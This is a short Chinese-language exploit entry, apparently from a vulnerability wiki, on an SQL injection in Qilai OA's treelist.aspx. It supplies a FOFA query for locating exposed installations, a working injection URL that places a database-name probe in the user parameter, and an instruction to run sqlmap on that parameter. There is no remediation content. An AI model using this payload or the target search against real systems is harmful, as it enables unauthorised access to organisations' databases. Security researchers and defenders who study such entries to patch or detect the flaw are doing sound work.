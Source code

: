 ```yaml
---
title: 启莱OA treelist.aspx SQL注入漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 启莱OA
---
```


# 启莱OA treelist.aspx SQL注入漏洞

## 漏洞描述

启莱OA treelist.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 启莱OA

## FOFA

> [!NOTE]
>
> app="启莱OA"

## 漏洞复现

登录页面如下

![](/img/20210924013547082257.png)

存在SQL注入的文件为 treelist.aspx

```
http://xxx.xxx.xxx.xxx/client/treelist.aspx?user=' and (select db_name())>0--&pwd=1
```

![](/img/20210924013547351429.png)

使用SQLmap对参数 user 进行注入

![](/img/20210924013548562216.png)